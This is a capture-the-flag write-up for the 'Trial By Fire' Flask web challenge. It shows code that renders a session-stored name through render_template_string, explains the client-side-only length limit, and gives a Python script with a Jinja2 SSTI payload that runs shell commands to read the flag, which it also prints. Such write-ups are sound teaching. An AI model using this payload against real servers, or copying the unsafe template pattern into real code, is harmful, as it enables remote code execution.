

# Trial By Fire

## **Challenge Details**
- **Category**: Web
- **Difficulty**: Very Easy
- **Flag**: HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_a22fa5e7afa190f778cf0b456d62acde}
- **Description**: A vulnerable Flask app renders user input in templates—bypass client-side limits to exploit SSTI and execute commands

---

## **Approach**
1. **Initial Observations**:

The application starts with a name entry screen with a 30-character limit:


After submitting a name, users are challenged to a game:



Completing the game generates a battle report containing the submitted name:


2. **Analysis**
The Flask application stores the submitted name in the session cookie and later renders it unsafely in the battle report template.

```py
@web.route('/begin', methods=['POST'])
def begin_journey():
    warrior_name = request.form.get('warrior_name', '').strip()
    if not warrior_name:
        return redirect(url_for('web.index'))

    session['warrior_name'] = warrior_name
    return render_template('intro.html', warrior_name=warrior_name)
```

And at the battle-report the warrior name is rendered. So this app is vulnerable to SSTI. 
```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```
This implementation is vulnerable to Server-Side Template Injection (SSTI) because user-controlled input (warrior_name) is directly inserted into a Jinja2 template rendered with render_template_string()

---

## **Solution**
The 30-character limit is only enforced in the browser (client-side). We can bypass this by:
1. Using a Python script to send a direct POST request to /begin
2. Intercepting the POST request to /begin using Burp Suite

The server responds with a session cookie containing our payload. Subsequent requests to /battle-report will execute the payload when the template renders warrior_name:

```py
import requests

url = "http://94.237.53.203:59491"
ssti_payload = "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"

with requests.Session() as s:
    begin_response = s.post(url + "/begin", data={"warrior_name" : ssti_payload})
    report_response = s.post(url + "/battle-report")
    print(report_response.text)
```
